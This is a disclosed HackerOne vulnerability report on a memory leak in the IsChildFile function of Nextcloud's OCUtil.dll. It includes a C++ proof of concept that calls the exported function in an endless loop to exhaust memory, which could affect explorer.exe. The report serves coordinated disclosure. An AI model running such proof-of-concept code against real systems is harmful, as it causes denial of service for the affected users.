 # Memory Leak in OCUtil.dll library in Desktop client can lead to DoS

## Report Details
- **Report ID**: 588562
- **URL**: https://hackerone.com/reports/588562
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-05-23T12:44:35.917Z
- **Disclosed**: 2020-08-06T13:56:55.155Z

## Reporter
- **Username**: cwave
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
The function IsChildFile(const wchar_t* rootFolder, const wchar_t* file) in FileUtil.cpp allocates memory on line 42 and fails to free it.

The following PoC code can provide evidence. The code and the PoC executable is attached to this report. Also OCUtils.dll and OCUtils_x64.dll library which is delivered with Nextclound Windows installer was included in the attachment.

Steps to reproduce:
1. Launch tests.exe (see attachment) or compile the attached VS2017 solution and launch the resulted executable
2. Make sure OCUtil_x64 library is in the System library path
3. Open Windows Task Manager and watch how the amount of memory for tests.exe process is increasing.

A Visual Studio debugging session screenshot is also attached whre you can see the memory in use.

#include "pch.h"
#include <iostream>
#include <windows.h>

typedef bool(__cdecl *f_IsChildFile)(const wchar_t* rootFolder, const wchar_t* file);

int main()
{
	HINSTANCE hGetProcIDDLL = LoadLibrary(L"OCUtil_x64.dll");

	if (!hGetProcIDDLL) {
		std::cout << "could not load the dynamic library" << std::endl;
		return EXIT_FAILURE;
	}

	f_IsChildFile isChildFile = (f_IsChildFile)GetProcAddress(hGetProcIDDLL, "?IsChildFile@FileUtil@@SA_NPEB_W0@Z");
	if (!isChildFile) {
		std::cout << "could not locate the function" << std::endl;
		return EXIT_FAILURE;
	}

	std::cout << "Function is at " << isChildFile;

	const wchar_t * folder = L"C:\\TestFolder";
	const wchar_t * file = L"C:\\As they rounded a bend in the path that ran beside the river, Lara recognized the silhouette of a fig tree atop a nearby hill. The weather was hot and the days were long. The fig tree was in full leaf, but not yet bearing fruit. Soon Lara spotted other";

	bool res; 

	while (1) {
		res = isChildFile(folder, file);
		std::cout << res << "\n";
	}

	return 0;
}

## Impact

Memory leaks have two common and sometimes overlapping causes:

- Error conditions and other exceptional circumstances.

- Confusion over which part of the program is responsible for freeing the memory.

In this case, the memory allocated in FileUtil.cpp at line 42 is not always freed or returned by the function.

Most memory leaks result in general software reliability problems, but if an attacker can intentionally trigger a memory leak, the attacker may be able to launch a denial of service attack (by crashing the program) or take advantage of other unexpected program behavior resulting from a low memory condition 

The function IsChildFile(const wchar_t* rootFolder, const wchar_t* file) is part of OCUtil.dll library which is delivered with Nextcloud Windows installer and it is loaded in explorer.exe process in order to provide context menu functionalities. 
By using the context menu functionality multiple times, explorer.exe could pottentialy run out of memory.

## Attachments
- VS_PoC.JPG
- nextcloud_memory_leak_poc.zip

